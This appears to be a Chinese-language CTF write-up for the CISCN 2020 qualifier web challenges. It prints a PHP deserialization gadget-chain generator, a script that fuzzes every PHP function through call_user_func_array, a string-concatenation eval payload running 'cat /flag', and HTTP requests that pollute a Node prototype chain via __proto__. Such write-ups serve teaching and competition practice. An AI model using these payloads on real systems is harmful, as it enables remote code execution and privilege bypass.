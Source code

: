 date: 2020-08-21
categories:
- 比赛
tags:
- wp
- web
title: ciscn2020预选赛
---
# ciscn 2020 预选赛

## babyunserialize

和wmctf2020的webwebpayload相同



```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"phpinfo"],
            $adhoc=[-1=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```



## easyphp

阅读代码我们发现:`if(!pcntl_wifexited($status)){phpinfo();}`，及fork的子进程报错就会执行phpinfo，而phpinfo里面通常包含敏感信息，和一些对我们题目有帮助的信息。

fork子进程执行的代码是：

```php
if(isset($_GET['a'])&&is_string($_GET['a'])&&!preg_match("/[:\\\\]|exec|pcntl/i",$_GET['a'])){
            call_user_func_array($_GET['a'],[$_GET['b'],false,true]);
```

而这里调用了非常敏感的call_user_func_array，所以无论是想让子进程报错还是直接执行代码这里都是非常好的选择。因此我们先要写个fuzz脚本：

```php
<?php

    $payloads=[
        "ls",//shell命令执行测试
        "index.php",//读取文件测试
        "asdfasldfjaklsdfjl.php",//创建文件/文件夹测试
        "echo 123;"//php命令执行测试
    ];
    $str=file_get_contents("fatalerr.log");
    if(!$str){
        $str="[]";
    }
    $fatalerror=eval("return ".$str.";");
    function show_result($func,$r,$v){
        if($r==NULL){
        }
        try{
            echo "$func($v,false,true) return value:";
            var_dump($r);
            echo "<br />";
        }catch(Exception $e){}
    }

    function brute_func($a){
        global $payloads;
        global $fatalerror;
        
        foreach($a as $val){
            
            if(is_array($val)){
                brute_func($val);
                continue;
            }
            
            if(in_array($val,$fatalerror)){
                continue;
            }
            array_push($fatalerror,$val);
            file_put_contents("fatalerr.log",var_export($fatalerror,TRUE));
            foreach($payloads as $v){
                $r=NULL;
                
                $r=call_user_func_array($val,[$v,false,true]);
                show_result($val,$r,$v);
                
            }
            array_pop($fatalerror);
            
        }
    };
    $arr=get_defined_functions();
    brute_func($arr);
?>
```



多次执行发现：

```php
stream_socket_server
exec
stream_socket_client
```

这三个函数会引起segment_fault 且 exec虽然会引起segment  fault但是仍然执行了代码

但是这里只需要segment_fault,所以访问`?a=stream_socket_server&b=`拿到flag



## rceme



注意到有个eval只要绕过限制就可以执行命令了

很简单利用字符串拼接绕过

`{if:+('base64_deco'.'d'.'e')('c3lzdGVt')('cat+/flag')}{end+if}`



## easytrick

队里的师傅做出来的,dbq，我太菜了

```php
<?php
class trick{
    public $trick1;
    public $trick2;
}


$t = new trick;
$t->trick1 = "INF";
$t->trick2 = 1e1111;
echo serialize($t);

```

## littlegame

```
λ npm audit

                       === npm audit security report ===

# Run  npm update set-value --depth 1  to resolve 1 vulnerability

  High            Prototype Pollution

  Package         set-value

  Dependency of   set-value

  Path            set-value

  More info       https://npmjs.com/advisories/1012



found 1 high severity vulnerability in 61 scanned packages
  run `npm audit fix` to fix 1 of them.
```

原型链污染，poc地址：
https://snyk.io/vuln/SNYK-JS-SETVALUE-450213

- 先访问一次`/SpawnPoint`，拿个sessionid
- 然后访问`/Privilege`污染原型链（用`constructor.prototype`或者`__proto__`均可）
- 最后访问`/DeveloperControlPanel`拿flag

```
POST /Privilege HTTP/1.1
Host: host
Content-Type: application/x-www-form-urlencoded
Cookie: session=yoursession

NewAttributeValue=abc&NewAttributeKey=__proto__.password4

POST /DeveloperControlPanel HTTP/1.1
Host: host
Content-Type: application/x-www-form-urlencoded
Cookie: session=yoursession

key=password4&password=abc
```